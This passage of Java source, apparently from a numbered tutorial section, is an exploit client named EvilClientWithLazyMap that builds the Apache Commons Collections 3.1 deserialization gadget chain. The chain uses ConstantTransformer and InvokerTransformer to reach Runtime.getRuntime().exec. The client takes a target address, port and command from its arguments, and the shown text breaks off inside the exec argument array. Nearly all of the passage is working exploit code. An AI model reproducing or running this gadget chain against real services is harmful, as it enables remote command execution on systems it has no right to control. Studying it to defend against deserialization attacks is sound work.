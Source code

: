 8.3.2) EvilClientWithLazyMap.java

```java
*
 * javac -encoding GBK -g -cp "commons-collections-3.1.jar" EvilClientWithLazyMap.java
 */
import java.io.*;
import java.net.Socket;
import java.util.*;
import java.lang.reflect.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;

public class EvilClientWithLazyMap
{
    @SuppressWarnings("unchecked")
    public static void main ( String[] argv ) throws Exception
    {
        String              addr        = argv[0];
        int                 port        = Integer.parseInt( argv[1] );
        String              cmd         = argv[2];
        Transformer[]       tarray      = new Transformer[]
        {
            new ConstantTransformer( Runtime.class ),
            new InvokerTransformer
            (
                "getMethod",
                new Class[]
                {
                    String.class,
                    Class[].class
                },
                new Object[]
                {
                    "getRuntime",
                    new Class[0]
                }
            ),
            new InvokerTransformer
            (
                "invoke",
                new Class[]
                {
                    Object.class,
                    Object[].class
                },
                new Object[]
                {
                    null,
                    new Object[0]
                }
            ),
            new InvokerTransformer
            (
                "exec",
                new Class[]
                {
                    String[].class
                },
                new Object[]
                {
                    new String[]
                    {
```